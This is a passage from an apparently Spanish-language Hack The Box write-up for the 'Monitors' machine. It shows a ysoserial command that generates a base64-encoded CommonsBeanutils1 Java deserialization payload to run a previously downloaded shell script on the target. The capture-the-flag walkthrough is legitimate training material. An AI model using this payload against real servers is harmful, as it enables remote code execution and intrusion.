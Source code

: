 ![58](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/58.png){:class="blog-image" onclick="expandImage(this)"}

Después de enviar el _payload_ inicial para descargar `shell.sh`, generaremos un segundo _payload_ en formato _JAR_ que ejecutará este archivo en el servidor. Este segundo _payload_ lo generaremos con el mismo proceso de codificación en `base64`:

```
java -jar ysoserial-all.jar CommonsBeanutils1 "bash /tmp/shell.sh" | base64 | tr -d "\n"; echo
```

![59](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/59.png){:class="blog-image" onclick="expandImage(this)"}
